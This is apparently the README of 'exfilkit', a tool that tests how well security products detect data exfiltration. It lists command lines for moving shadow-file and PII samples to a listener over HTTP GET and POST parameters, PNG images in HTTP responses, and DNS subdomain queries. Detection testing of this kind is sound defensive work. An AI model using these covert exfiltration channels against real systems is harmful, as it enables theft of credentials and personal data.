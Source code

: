 # exfilkit

> Data exfiltration utility for testing detection capabilities

## Description

Data exfiltration utility used for testing detection capabilities of security products. Obviously for legal purposes only.

## Exfiltration How-To

### /etc/shadow -> HTTP GET requests

#### Server

    # ./exfilkit-cli.py -m exfilkit.methods.http.param_cipher.GETServer -lp 80 -o output.log

#### Client

    $ ./exfilkit-cli.py -m exfilkit.methods.http.param_cipher.GETClient -rh 127.0.0.1 -rp 80 -i ./samples/shadow.txt -r

### /etc/shadow -> HTTP POST requests

#### Server

    # ./exfilkit-cli.py -m exfilkit.methods.http.param_cipher.POSTServer -lp 80 -o output.log

#### Client

    $ ./exfilkit-cli.py -m exfilkit.methods.http.param_cipher.POSTClient -rh 127.0.0.1 -rp 80 -i ./samples/shadow.txt -r

### PII -> PNG embedded in HTTP Response

#### Server

    $ ./exfilkit-cli.py -m exfilkit.methods.http.image_response.Server -lp 37650 -o output.log

#### Client

    # ./exfilkit-cli.py -m exfilkit.methods.http.image_response.Client -rh 127.0.0.1 -rp 37650 -lp 80 -i ./samples/pii.txt -r

### PII -> DNS subdomains querying

#### Server

    # ./exfilkit-cli.py -m exfilkit.methods.dns.subdomain_cipher.Server -lp 53 -o output.log

#### Client

    $ ./exfilkit-cli.py -m exfilkit.methods.dns.subdomain_cipher.Client -rh 127.0.0.1 -rp 53 -i ./samples/pii.txt -r
